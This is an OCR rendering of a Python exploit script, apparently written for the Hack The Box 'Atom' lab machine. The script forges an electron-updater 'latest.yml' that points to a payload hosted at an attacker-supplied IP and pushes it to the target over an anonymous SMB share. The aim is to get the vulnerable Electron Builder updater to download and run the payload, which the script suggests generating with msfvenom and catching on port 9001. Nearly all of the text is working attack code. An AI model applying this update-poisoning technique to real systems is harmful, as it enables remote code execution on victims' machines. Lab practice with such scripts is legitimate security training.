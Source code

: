 ```python
    yml_string = ("version: 1.0.1\n"
        "files:\n"
        "  url: http://{ip}/{payload}\n"
        "  sha512: {sha}\n"
        "  size: {size}\n"
        "path: {payload}\n"
        "sha512: {sha}\n"
        "releaseDate: '2021-04-21T11:17:02.627Z'"
        ).format(ip=ip, payload=payload, sha=sum, size=size)
    
    print(yml_string)

    yml_path = dir + "/latest.yml"

    with open(yml_path, 'a') as f:
        f.write(yml_string)
        f.close()

    print("YAML saved at " + yml_path)

    return yml_path

def smb_upload(yml_path):

    print("\n=== Uploading to SMB ===\n")

    #set client details
    userID = "whoever"
    password = ""
    client_machine_name = "client"

    #set server details
    server_name = "ATOM" #netbios name
    server_ip = "10.10.10.237"
    domain_name = "atom.htb"

    #create and open connection
    conn = SMBConnection(userID, password, client_machine_name, server_name, domain=domain_name, use_ntlm_v2=True,
                     is_direct_tcp=True)

    conn.connect(server_ip, 445)

    #upload yml file
    with open(yml_path, 'rb') as file:
        # conn.storeFile('client1', 'latest.yml', file)
        resp = conn.storeFile('Software_Updates', 'client1/latest.yml', file)

    print(str(resp))

    conn.close()

def main():
    parser = argparse.ArgumentParser(prog="send-payload.py", description="Sends a payload to a vulnerable Electron Builder instance over SMB. If no port is provided, listens on port 9001 by default. No default option for IP address is specified.")

    #positional arguments
    parser.add_argument("ip", help="Target IP address")

    #named parameters/flags
    parser.add_argument("-p", "--payload", help="The path to an existing payload. Specify this if you don't want to generate one with msfvenom", dest="payload")
```
